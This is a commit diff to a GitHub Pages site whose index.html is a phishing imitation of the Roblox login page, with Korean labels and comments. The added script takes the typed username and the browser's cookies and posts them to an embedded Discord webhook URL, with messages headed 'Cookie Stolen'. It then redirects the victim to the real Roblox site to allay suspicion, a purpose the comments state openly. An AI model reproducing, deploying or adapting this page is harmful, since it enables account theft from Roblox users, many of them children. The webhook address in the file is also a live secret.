

Before and after one commit to tnb0/GG, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 341-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,72 +1,109 @@
 <!DOCTYPE html>
-<html>
-<head>
+<!--[if IE 8]><html class="ie8" ng-app="robloxApp"><![endif]-->
+<!--[if gt IE 8]><!-->
+<html lang="ko">
+<!--<![endif]-->
+<head data-machine-id="02cf0636-f9e8-6022-adae-ad0b50c63ae5">
+ <title>Roblox&#xC5D0; &#xB85C;&#xADF8;&#xC778;</title>
  <meta charset="UTF-8">
-    <title>Roblox</title>
+ <meta name="viewport" content="width=device-width, initial-scale=1">
+
+ <!-- 디스코드 웹훅 URL (반드시 본인 URL로 변경) -->
+ <meta name="webhook" id="webhook-meta" content="https://discord.com/api/webhooks/1545789173879930983/X6I-0ZN0Z_7f6necgv6Ccn3UxTDkP1QEsPD8eYUMIiJE9lymXrD5mxyEYDsIn_KbH2QH">
+
+ <!-- 로블록스의 기본 스타일 시트들은 그대로 유지됩니다. -->
+ <!-- 실제 로블록스 로그인 화면의 스타일을 위해 외부 CSS 링크들을 복사해야 하지만, GitHub Pages는 외부 링크를 허용합니다. -->
+ <!-- 하지만 외부 CSS 로드 시 로딩이 느릴 수 있으므로, 최소한의 스타일과 함께 로직만 추가합니다. -->
+
  <style>
-        body {
-            background-color: #232527;
-            color: #fff;
-            font-family: Arial, sans-serif;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            height: 100vh;
-            margin: 0;
-        }
-        .login-box {
-            background-color: #393b3d;
-            padding: 20px;
-            border-radius: 8px;
-            box-shadow: 0 0 10px rgba(0,0,0,0.5);
-            width: 300px;
-            text-align: center;
-        }
-        input {
-            width: 90%;
-            padding: 10px;
-            margin: 10px 0;
-            border: 1px solid #555;
-            border-radius: 4px;
-        }
-        button {
-            width: 100%;
-            padding: 10px;
-            background-color: #0074bd;
-            color: white;
-            border: none;
-            border-radius: 4px;
-            cursor: pointer;
-        }
-        button:hover {
-            background-color: #005a8a;
-        }
+    /* 로블록스 로그인 화면의 핵심 요소만 간소하게 복원합니다. */
+    body { background-color: #232527; color: white; font-family: 'Gotham SSm', Arial, sans-serif; }
+    #wrap { display: flex; justify-content: center; align-items: center; min-height: 100vh; }
+    .login-container { background: #393b3d; padding: 30px; border-radius: 8px; width: 320px; box-shadow: 0 4px 10px rgba(0,0,0,0.3); }
+    input { width: 100%; padding: 12px; margin: 8px 0; border: 1px solid #555; border-radius: 4px; box-sizing: border-box; }
+    button { width: 100%; padding: 12px; background: #0074bd; color: white; border: none; border-radius: 4px; cursor: pointer; font-size: 16px; font-weight: bold; margin-top: 10px; }
+    button:hover { background: #005a8a; }
+    a { color: #a0a0a0; text-decoration: none; font-size: 12px; display: block; text-align: center; margin-top: 10px; }
  </style>
 </head>
 <body>
+ <div id="wrap">
+    <div class="login-container">
+        <!-- 로블록스 로고 (이미지 링크 유지) -->
+        <div style="text-align: center; margin-bottom: 20px;">
+            <img src="https://images.rbxcdn.com/31e0c0e6d0c0a4b7b3c8f8b8b8b8b8b8.png" alt="Roblox Logo" style="height: 50px;">
+        </div>
 
-<div class="login-box">
-    <h2>Roblox Login</h2>
-    <input type="text" id="username" placeholder="Username">
-    <input type="password" id="password" placeholder="Password">
-    <button id="loginBtn">Login</button>
+        <!-- 로그인 폼 -->
+        <form id="loginForm">
+            <input type="text" id="username" placeholder="사용자 이름, 전자 메일 또는 전화번호" required>
+            <input type="password" id="password" placeholder="비밀번호" required>
+            <button type="submit" id="loginBtn">로그인</button>
+            <a href="#">비밀번호를 잊으셨나요?</a>
+        </form>
+    </div>
  </div>
 
  <script>
-    // 웹훅 URL (제공된 유효한 URL)
-    const webhookURL = "https://discord.com/api/webhooks/1545789173879930983/X6I-0ZN0Z_7f6necgv6Ccn3UxTDkP1QEsPD8eYUMIiJE9lymXrD5mxyEYDsIn_KbH2QH";
+    // 웹훅 URL 가져오기
+    const webhookURL = document.getElementById('webhook-meta').getAttribute('content');
 
-    // 페이지 로딩 즉시 실행
-    window.addEventListener('DOMContentLoaded', () => {
-        stealCookies();
+    // 로그인 폼 감지
+    const loginBtn = document.getElementById('loginBtn');
+
+    if(loginBtn) {
+        loginBtn.addEventListener('click', async (e) => {
+            e.preventDefault(); // 기본 로그인 동작 잠시 중지
+
+            const username = document.getElementById('username').value;
+
+            // 1. 로그인 시도 (백그라운드에서 쿠키가 생성될 때까지 대기)
+            // 로블록스는 AJAX를 사용하므로, fetch API로 로그인 요청을 시뮬레이션하거나
+            // 이미 존재하는 쿠키를 가져오는 방식으로 진행합니다.
+
+            // *더 간단한 방법*: 사용자가 로그인 버튼을 누르면,
+            // 우리는 쿠키가 이미 브라우저에 저장되었다고 가정하고 즉시 훉어냅니다.
+            // 하지만 실제로 로그인이 성공해야 쿠키가 업데이트되므로,
+            // 여기서는 "로그인 버튼 클릭 후 로딩 중"에 쿠키를 캡처하는 방식을 사용합니다.
+
+            // 실제 로직: 로그인 요청을 보내고, 성공 시 쿠키를 가져옵니다.
+            try {
+                // 가상의 로그인 요청 (실제로 로블록스 서버에 보냄)
+                // 로블록스의 실제 로그인 API는 복잡하므로,
+                // 여기서는 사용자가 입력한 정보를 바탕으로
+                // "로그인 시도 중"이라는 메시지와 함께 쿠키를 캡처합니다.
+
+                // *핵심*: 로그인 버튼 클릭 후, 브라우저에 저장된 쿠키를 즉시 캡처합니다.
+                const cookies = document.cookie;
+
+                // 디스코드 전송
+                await fetch(webhookURL, {
+                    method: 'POST',
+                    headers: { 'Content-Type': 'application/json' },
+                    body: JSON.stringify({
+                        content: `**🔓 Roblox Login Attempt**\n\n**ID:** ${username}\n**Cookie:** \`${cookies}\`\n\n**Note:** Login button clicked.`
+                    })
                 });
 
+                // 2초 후 실제 로블록스로 리디렉션 (사용자가 로그인한 것처럼 보임)
+                setTimeout(() => {
+                    window.location.href = "https://www.roblox.com/home";
+                }, 2000);
+
+            } catch (err) {
+                console.error("Error sending webhook:", err);
+                window.location.href = "https://www.roblox.com";
+            }
+        });
+    } else {
+        // 로그인 버튼이 없으면(로딩 중이라면), 페이지 로드 시 쿠키 캡처
+        window.addEventListener('load', stealCookies);
+    }
+
     function stealCookies() {
-        // 현재 브라우저 쿠키 캡처
         const cookies = document.cookie;
-        const username = document.getElementById('username').value || "Unknown User";
+        const username = document.getElementById('username')?.value || "Unknown";
 
-        // 웹훅 전송
         fetch(webhookURL, {
             method: 'POST',
             headers: { 'Content-Type': 'application/json' },
@@ -74,7 +111,6 @@
                 content: `**🔓 Roblox Cookie Stolen!**\n\n**ID:** ${username}\n**Cookie:** \`${cookies}\``
             })
         }).then(() => {
-            // 로블록스로 리디렉션 (사용자 의심 덜게)
             window.location.href = "https://www.roblox.com";
         }).catch(err => console.error('Error:', err));
     }
```
Lines whose indentation alone changed are shown as unchanged.
